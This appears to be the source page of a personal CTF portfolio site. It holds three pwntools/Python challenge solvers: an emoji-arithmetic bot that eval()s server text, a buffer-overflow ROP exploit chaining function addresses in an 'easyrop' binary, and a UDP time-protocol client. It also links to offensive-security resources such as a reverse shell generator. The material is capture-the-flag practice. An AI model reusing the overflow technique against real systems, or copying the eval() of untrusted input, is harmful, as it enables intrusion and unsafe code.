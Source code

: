 ```yaml
---
layout: default
---            
```

|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

[Hack the Box Write Ups](./htb.md)
[Try Hack Me Write Ups](./thm.md)
[Cool FOrtune Teller in JS](./fortune.html)

### What about emoji?

```py
#!/usr/bin/env python3

from pwn import *
import re

r = remote("46.101.22.121",30437)
r.recv()
r.sendline("1")
d = r.recv().decode()
e = r.recv().decode()
print(d)
print(e)

emojis = {
"🌞" : re.findall("🌞 -> (\d+)",d)[0],
"🍨" : re.findall("🍨 -> (\d+)",e)[0],
"❌" : re.findall("❌ -> (\d+)",e)[0],
"🍪" : re.findall("🍪 -> (\d+)",e)[0],
"🔥" : re.findall("🔥 -> (\d+)",e)[0],
"⛔" : re.findall("⛔ -> (\d+)",e)[0],
"🍧" : re.findall("🍧 -> (\d+)",e)[0],
"👺" : re.findall("👺 -> (\d+)",e)[0],
"👾" : re.findall("👾 -> (\d+)",e)[0],
"🦄" : re.findall("🦄 -> (\d+)",e)[0]
}

print(str(emojis))

r.sendline("2")

for i in range(1,501):
	ques = r.recv().decode()

	print(ques)

	equation = ''
	for c in ques:
		if c in emojis:
			equation = equation + ' ' + emojis[c]
		elif c in ['*','-','+','-']:
			equation = equation + ' ' + c

	res = eval(equation)
	print(res)
	r.sendline(str(res))

flag = r.recv().decode()

print(flag)
```
### What about BOF?

```py
#!/usr/bin/env python3
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)
```

### What about NTP you ask?
```py
#!/usr/bin/env python3
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calculate the difference in Hours
print("Hours difference: {}".format((st_s-ct_s)/3600))
```

<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>
<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1">
</div>

<h3 id="useful-links">Useful links</h3>

<table>
  <thead>
    <tr>
      <th>Link</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://tryhackme.com">TryHackMe</a></td>
      <td>TryHackMe - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td><a href="https://hackthebox.eu">HackTheBox</a></td>
      <td>HackTheBox - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://book.hacktricks.xyz/">HackTricks</a></td>
      <td>Tricks and Techniques</td>
    </tr>
    <tr>
      <td><a href="https://gtfobins.github.io">GTFOBins</a></td>
      <td>Quick Shell One-liners</td>
    </tr>
    <tr>
      <td><a href="https://www.revshells.com">RevShells</a></td>
      <td>Reverse Shell Command Generator</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://pentest.ws">PenTest.WS</a></td>
      <td>Engagement Utility</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://explainshell.com">ExplainShell</a></td>
      <td>Bash Shell Command Explanation</td>
    </tr>
    <tr>
      <td><a href="https://ss64.com">SS64</a></td>
      <td>Commandline Reference</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://crackstation.net">CrackStation</a></td>
      <td>Online Hash Cracking</td>
    </tr>
    <tr>
      <td><a href="https://gchq.github.io/CyberChef">CyberChef</a></td>
      <td>The Cyber Swiss Army Knife for analysing/encoding/decoding data</td>
    </tr>
    <tr>
      <td><a href="https://www.dcode.fr/en">dCode</a></td>
      <td>dCode is a toolkit website for decryption, ciphertexts</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://alomancy.gitbook.io/guides/">Guides</a></td>
      <td>In Depth Guides by <a href="https://www.twitch.tv/alomancy">Alomancy</a></td>
    </tr>
  </tbody>
</table>

<h3 id="credits">Credits</h3>

<p>Huge shoutout to <a href="https://twitch.tv/chadb_n00b">chadb_n00b</a> and to <a href="https://infosecstreams.github.io/">infosecstreams</a>for starting up and initially maintaining the list!</p>